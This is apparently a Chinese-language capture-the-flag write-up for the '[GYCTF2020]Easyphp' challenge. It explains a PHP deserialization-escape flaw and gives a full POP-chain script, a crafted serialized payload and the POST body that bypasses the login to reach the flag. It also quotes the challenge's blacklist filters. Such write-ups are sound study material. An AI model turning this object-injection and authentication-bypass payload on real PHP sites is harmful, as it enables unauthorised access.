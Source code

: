 # \[GYCTF2020]Easyphp

## \[GYCTF2020]Easyphp

## 考点

* 反序列化逃逸

## wp

www.zip给了源码

大概的逻辑就是index.php判断有没有登录，登录就转到update.php，没有登录就转到登录页面

在登录页面获取参数，并做黑名单过滤，然后执行`User::login()`

```
preg_match("/union|select|drop|delete|insert|\#|\%|\`|\@|\\\\/i", $_POST['***'])
```

在`User::login()`中连接数据库，然后用预编译的方式执行sql语句获取username和password，这里基本上封死了sql注入。如果登录成功就让`$_SESSION['login']`为1，然后跳转到update.php

```php
$mysqli=new dbCtrl();
$this->id=$mysqli->login('select id,password from user where username=?');

if($this->id)        $_SESSION['login']=1;
```

再看update.php，先判断`$_SESSION['login']`是否为1，不为1就\*\*`echo`**而不是**`die`\*\*。那后面的代码还可以执行啊。

![](<../../.gitbook/assets/image (19) (1) (1).png>)

然后到`User::update()`，先反序列化`Info`类再实例化`UpdateHelper`

```php
    public function update(){
        $Info=unserialize($this->getNewinfo());
        $age=$Info->age;
        $nickname=$Info->nickname;
        $updateAction=new UpdateHelper($_SESSION['id'],$Info,"update user SET age=$age,nickname=$nickname where id=".$_SESSION['id']);
        //这个功能还没有写完 先占坑
    }
    public function getNewInfo(){
        $age=$_POST['age'];
        $nickname=$_POST['nickname'];
        return safe(serialize(new Info($age,$nickname)));
    }
Class UpdateHelper{
    public $id;
    public $newinfo;
    public $sql;
    public function __construct($newInfo,$sql){
        $newInfo=unserialize($newInfo);
        $upDate=new dbCtrl();
    }
    public function __destruct()
    {
        echo $this->sql;
    }
}
```

```php
class Info{
    public $age;
    public $nickname;
    public $CtrlCase;
    public function __construct($age,$nickname){
        $this->age=$age;
        $this->nickname=$nickname;
    }
    public function __call($name,$argument){
        echo $this->CtrlCase->login($argument[0]);
    }
}
```

这里获取flag的条件是`$_SESSION['login']`为1

```php
if($_SESSION['login']===1){
  require_once("flag.php");
  echo $flag;
}
```

而`$_SESSION['login']`为1要求成功登录，即token为admin或者账号密码正确

```php
$mysqli=new dbCtrl();
$this->id=$mysqli->login('select id,password from user where username=?');
if($this->id){
$_SESSION['id']=$this->id;
$_SESSION['login']=1;}
class dbCtrl
{
    public function login($sql)
    {
        $this->mysqli=new mysqli($this->hostname, $this->dbuser, $this->dbpass, $this->database);
        $result=$this->mysqli->prepare($sql);
        $result->bind_param('s', $this->name);
        $result->execute();
        $result->bind_result($idResult, $passwordResult);
        $result->fetch();
        $result->close();
        if ($this->token=='admin') {
            return $idResult;
        }
        if (!$idResult) {
            echo('用户不存在!');
            return false;
        }
        if (md5($this->password)!==$passwordResult) {
            echo('密码错误！');
            return false;
        }
        $_SESSION['token']=$this->name;
        return $idResult;
    }
}
```

从`User::update()`入手，它的第一行`$Info=unserialize($this->getNewinfo());`如下，一个典型的逃逸

```php
function safe($parm){
    $array= array('union','regexp','load','into','flag','file','insert',"'",'\\',"*","alter");
    return str_replace($array,'hacker',$parm);
}
unserialize(safe(serialize(new Info($age,$nickname))));
```

可以利用逃逸，插入UpdateHelper类，触发它的`__destruct()`函数，再去触发User类的`__toString()`，最后触发Info类的`__call()`，让它执行`dbCtrl::login()`，这样就能够控制sql语句，实现登录了

pop链

```php
<?php
class dbCtrl{}
$d = new dbCtrl();
$d->name = "admin";// admin这个用户名是存在的，可以试出来
$d->password = "1";// 与select语句中的密码保持一致，绕过登录

class Info{}
$c = new Info();
$c->CtrlCase = $d;

class User{}
$b = new User();
$b->nickname = $c;
$b->age = 'select 1,"c4ca4238a0b923820dcc509a6f75849b" from user where username=?';

class UpdateHelper{}
$a = new UpdateHelper();
$a->sql = $b;

echo serialize($a);
// O:12:"UpdateHelper":1:{s:3:"sql";O:4:"User":2:{s:8:"nickname";O:4:"Info":1:{s:8:"CtrlCase";O:6:"dbCtrl":2:{s:4:"name";s:5:"admin";s:8:"password";s:1:"1";}}s:3:"age";s:70:"select 1,"c4ca4238a0b923820dcc509a6f75849b" from user where username=?";}}
```

逃逸插入pop链，不断调整`*`或者`union`的数量，让插入pop链的结果符合反序列化条件

```php
<?php
class Info{}
$b = new Info();
$b->age = "123";
$b->nickname = '***************************************************unionunionunion";s:4:"test";O:12:"UpdateHelper":1:{s:3:"sql";O:4:"User":2:{s:8:"nickname";O:4:"Info":1:{s:8:"CtrlCase";O:6:"dbCtrl":2:{s:4:"name";s:5:"admin";s:8:"password";s:1:"1";}}s:3:"age";s:70:"select 1,"c4ca4238a0b923820dcc509a6f75849b" from user where username=?";}}';


$s = serialize($b);
echo $s."<br>";

function safe($parm){
    $array= array('union','regexp','load','into','flag','file','insert',"'",'\\',"*","alter");
    return str_replace($array,'hacker',$parm);
}
echo safe($s)."<br>";
/*
O:4:"Info":2:{s:3:"age";s:3:"123";s:8:"nickname";s:324:"***************************************************unionunionunion";s:4:"test";O:12:"UpdateHelper":1:{s:3:"sql";O:4:"User":2:{s:8:"nickname";O:4:"Info":1:{s:8:"CtrlCase";O:6:"dbCtrl":2:{s:4:"name";s:5:"admin";s:8:"password";s:1:"1";}}s:3:"age";s:70:"select 1,"c4ca4238a0b923820dcc509a6f75849b" from user where username=?";}}";}
O:4:"Info":2:{s:3:"age";s:3:"123";s:8:"nickname";s:324:"hackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhacker";s:4:"test";O:12:"UpdateHelper":1:{s:3:"sql";O:4:"User":2:{s:8:"nickname";O:4:"Info":1:{s:8:"CtrlCase";O:6:"dbCtrl":2:{s:4:"name";s:5:"admin";s:8:"password";s:1:"1";}}s:3:"age";s:70:"select 1,"c4ca4238a0b923820dcc509a6f75849b" from user where username=?";}}";}
*/
```

在update.php中POST

```
age=123&nickname=***************************************************unionunionunion";s:4:"test";O:12:"UpdateHelper":1:{s:3:"sql";O:4:"User":2:{s:8:"nickname";O:4:"Info":1:{s:8:"CtrlCase";O:6:"dbCtrl":2:{s:4:"name";s:5:"admin";s:8:"password";s:1:"1";}}s:3:"age";s:70:"select 1,"c4ca4238a0b923820dcc509a6f75849b" from user where username=?";}}
```

![](<../../.gitbook/assets/image (26) (1) (1) (1).png>)

这会让`dbCtrl::login()`成功执行，把token赋值为admin。

```php
        if ($this->token=='admin') {
            return $idResult;
        }
        if (!$idResult) {
            echo('用户不存在!');
            return false;
        }
        if (md5($this->password)!==$passwordResult) {
            echo('密码错误！');
            return false;
        }
        $_SESSION['token']=$this->name;
```

再用admin加上任意密码登录即可

![](<../../.gitbook/assets/image (2) (1).png>)

